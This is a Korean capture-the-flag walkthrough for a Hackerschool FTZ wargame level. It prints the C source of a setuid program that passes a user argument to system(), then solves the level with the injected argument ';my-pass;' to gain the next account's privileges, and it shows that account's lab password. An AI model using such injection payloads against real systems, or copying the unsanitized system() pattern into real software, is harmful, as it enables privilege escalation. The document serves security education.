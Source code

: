 # Hackerschool FTZ Level 02
```
login as: level3
level3@192.168.18.131's password:
[level3@ftz level3]$ ls
hint  public_html  tmp
[level3@ftz level3]$ cat hint




다음 코드는 autodig의 소스이다.


#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }


    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");


    system( cmd );

}


이를 이용하여 level4의 권한을 얻어라.


more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?




[level3@ftz level3]$ find / -perm -4000 -user level4 2>/dev/null
/bin/autodig
[level3@ftz level3]$ /bin/autodig ";my-pass;"
dig: Couldn't find server '': Name or service not known


Level4 Password is "suck my brain".


sh: line 1: version.bind: command not found
[level3@ftz level3]$
```

힌트를 보면 동시에 여러 명령어를 사용하는 방법과, 이를 문자열 형태로 전달하는 방법에 대해서 물어보고 있다.

먼저 `level4` 계정의 권한을 가진 파일을 찾으니, `/bin/autodig` 라는 파일이 나온다. 위 힌트에서 이 파일의 소스를 함께 제공해줬다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }


    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");


    system( cmd );

}
```

Command Injection 을 통해서 풀 수 있는데, `;` 를 사용하여 명령어를 분할하고, `"` 를 사용하여 문자열로 전달하면 된다.

즉, `/bin/autodig ";my-pass;"` 다음과 같이 실행하게 되면
- `dig @`
- `my-pass`
- ` version.bind chaos txt`

이렇게 3개의 명령어로 분할이 되어서 실행되게 된다.

그리하여 `level4` 권한으로 `my-pass` 가 실행되게 되었다.